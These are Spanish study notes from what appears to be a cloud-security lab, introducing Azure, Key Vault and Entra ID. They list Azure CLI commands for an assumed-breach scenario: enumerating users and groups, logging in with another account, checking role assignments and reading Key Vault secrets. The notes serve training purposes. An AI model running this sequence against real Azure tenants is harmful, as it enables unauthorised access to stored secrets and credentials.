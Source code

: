 # Objetivos de aprendizaje

- Aprender sobre Azure y como usarlo y porque
- Aprender sobre sus servicios como "Azure Key Vault" y "Microsoft Entra ID"
- Aprender como interactuar con Azure usando una Cloud Shell

# Introducción a Azure

Antes de entender al atacante, vamos a introducir algunos conceptos clave durante el proceso. Vamos a empezar introduciendo con Azure. 

Azure es un CSP (Cloud Service Provider) y como CSPs como Google Cloud y AWS dan recursos de computo como poder o dependiendo de la demanda. 

Azure da muchos beneficios como costes de optimización. Azure acede a los servicios de cloud y se identifica para configura r o mantener, estos serivicios se pueden usar para construir, deployar y configurar dentro de la infraestrucutra.

## Azure Key Vault

Azure Key Vault es un servicio que da segurdad y acesos recretos. Con API keys, certficados de contraseñas, llaves criptograficas y mas. Esencialmente, tood lo que quieras guardar.

## Microsoft Entra ID

Es una solución de Azure. Es una forma de identificar el acceso, esta información necesitamos para el usuario/aplicacion para acceder a X recurso

# Asumiendo una brecha de escenario

Cuando ya estemos dentro de Azure vamos:

## Azure Cloud Shell

Es un navegador basado en linea de comandos para los profesionales de IT

## Azure CLI

Es la interfaz de comandos, para ver y configurar recursos de Azure

![image](https://github.com/user-attachments/assets/c1389e06-5537-4d2e-9acc-7abf7eb230f5)

Una vez estemos dentro podemos ejecutar comandos arbitrarios

```
az ad signed-in-user show
```

![image](https://github.com/user-attachments/assets/ab3e6621-fc8e-4ded-8998-9d9e8213ebd1)


## Enumearcio Entra ID

```
az ad user list
```
Después de ver todos los usuarios con los numeros y cuentas listadas podemos filtrar por nombe

```
az ad user list --filter "startsWith('wvusr-', displayName)"
```

Listar grupos

```
az ad group list
```

Listar grupos específicos

```
az ad group member list --group "Secret Recovery Group"
```

Vamos a limpiar la sesióne iniciar sesión con una cuenta nueva

```
usr-xxxxxxxx [ ~ ]$ az account clear
usr-xxxxxxxx [ ~ ]$ az login -u EMAIL -p PASSWORD
```

## Asignar roles en Azure

Define el recuros usuario o grupo que tiene dicho acceso

```
az role assignment list --assignee REPLACE_WITH_SECRET_RECOVERY_GROUP_ID --all
```

## Azure Key Vault

```
az keyvault list
```

Nombre específico

```
az keyvault secret list --vault-name warevillesecrets
```

Nombre y rol especifico

```
az keyvault secret show --vault-name warevillesecrets --name REDACTED
```








